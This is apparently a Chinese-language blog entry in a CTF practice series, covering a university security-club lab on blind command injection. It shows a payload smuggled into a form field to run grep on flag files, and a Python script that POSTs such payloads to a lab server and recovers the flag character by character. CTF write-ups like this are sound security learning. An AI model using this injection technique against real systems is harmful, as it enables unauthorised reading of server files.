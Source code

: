 ```yaml
---
title: IThome 2024 鐵人賽 一直刷 CTF - Day18
tags:
  - IThome 2024 鐵人賽
  - CTF
  - 資安
categories:
  - IThome 2024 鐵人賽
  - 一直刷 CTF
abbrlink: 54500
date: 2024-09-21 00:00:00
lang:
---
```


## 前言

本日進度：

- [x] [【成大資安社社課】WEB 2 - lab](https://youtu.be/PqydmB-IoYc?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)

<!--more-->

## 上課紀錄

### Lab - dig-blind

他只會回傳 `success` 和 `fail`，先試試看 `'; grep -q "NCKUCTF{d19_" /fl* && exit 0 || exit 1'` ，好欸，他回傳 `success` !!!!

但每一位都用人工猜有點太慢，可以寫個程式根據他回傳的 0 1 訊號反推 flag ，最笨的方法就是直接一個個慢慢枚舉，這樣複雜度會是 O(NK) ， N 是字串長度，K 是枚舉的字元集數量，根據之前的觀察字元集應該是 `0123456789abcdefghijklmnopqrstuvwxyz_!{}` ，雖然我想到比較好的方法是把每個字轉 ASCII ，再用二進位表示，這樣就只會最多 7 次就知道那一個字是啥了，能壓到 O(N)，但這樣寫有點累，而且字元集也不算太多，要是真的不行就再拿多執行緒來用也可以變成 O(N)

我的 python 程式碼：

```python
import requests

url = "http://140.116.246.59:28116/"
prefix = "NCKUCTF{d19_"  
charset = "0123456789abcdefghijklmnopqrstuvwxyz_!}"  
flag = prefix

while not flag.endswith("}"):
    for char in charset:
        payload = f"'; grep -q \"{flag + char}\" /fl* && exit 0 || exit 1'"
        data = {'name': payload}
        
        response = requests.post(url, data=data)
        
        if response.text.count("success") == 2:
            flag += char
            print(f"Found: {flag}")
            break

print(f"Final Flag: {flag}")
```

![Image](https://i.imgur.com/N6PEcTz.png)

## 參考資料

- [【成大資安社社課】手把手Python教學 --- 從入門到入侵](https://youtu.be/-cMOv9QudOk?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】WEB 1](https://youtu.be/N60VGmhfhy0?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】WEB 2](https://youtu.be/PqydmB-IoYc?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】不是web3.0的 web3 - Vincent55](https://youtu.be/xjnAnrfApJo?list=PLFFwfkaPB2mqsfIQvdoT6xc0CziXhmrEV)
- [【成大資安社社課】Crypto 1](https://youtu.be/nVXA9S9Y07M?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】Crypto 2](https://youtu.be/LtWiQxbMjwg?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】Linux 基礎指令與使用者管理](https://youtu.be/8WVrUqjBsRE?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】淺談網路與 H T T P](https://youtu.be/pNhHXhPkNcE?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
